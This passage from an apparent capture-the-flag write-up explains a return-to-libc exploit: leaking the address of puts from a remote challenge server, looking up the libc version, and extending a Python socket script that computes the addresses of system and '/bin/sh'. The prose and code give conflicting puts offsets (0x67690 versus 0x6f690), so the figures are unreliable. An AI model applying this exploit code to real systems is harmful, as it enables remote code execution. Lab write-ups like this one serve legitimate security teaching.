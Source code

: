 Great! we have successfully leaked the address of `puts` on the remote machine. Let's look at that in libc database to maybe learn the version of libc on the remote machine:

![libc_db_second_1](/images/ropme/libc_1.png)
![libc_sb_second_2](/images/ropme/libc_2.png)
We got 2 matches, but both indicate the same libc version so the offset of the important stuff is the same (I checked). You can try as an exercise to call the server again and have it leak the location of `puts` again if you feel uncertain, or have the process return again to `puts` and this time also print the location of `fflush` and `fgets`. Clicking on one of the versions we see:

![libc_sb_second_3](/images/ropme/libc_3.png)

Awesome! offsets of everything we look for! so in this leak, the virtual address we have for `puts` was `0x7f53bed07690`, which according to the table above, means that the libc base was at `0x7f53bed07690 - 0x67690 = 0x7f53beca0000`.

Definitely looks like a valid libc base.

Let's enhance the code to use this information to compute the virtual address of `system` and `"/bin/sh"`

```Python
def compute_libc_base_from_puts(puts_va):
    # remote machine uses libc v2.23
    puts_offset_in_libc = 0x6f690
    return puts_va - puts_offset_in_libc

def remote(data):
    remote_address = (("docker.hackthebox.eu",35034))
    conn = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    print "connecting to ", remote_address
    conn.connect(remote_address)

    # server's initial message: "ROP ME outside..."
    print conn.recv(1024)

    print "connected. sending data"
    conn.send(bytes(data + "\n"))


    ans = conn.recv(1024)    
    ans = ans[:-1]  # omit the 0a
    ans = ans[::-1]  # reverse the order

    print "Virtual address of puts is: 0x" + binascii.hexlify(ans)

    libc_base = compute_libc_base_from_puts(int(binascii.hexlify(ans), 16))
    print "Base of libc:", hex(libc_base)
    print "Address of system: ", hex(libc_base + 0x45390)
    print "Address of binsh: ", hex(libc_base + 0x18cd57)
```


[1]: https://linux.die.net/man/3/puts
[2]: https://linux.die.net/man/3/fflush
[3]: https://linux.die.net/man/3/fgets
[4]: https://libc.blukat.me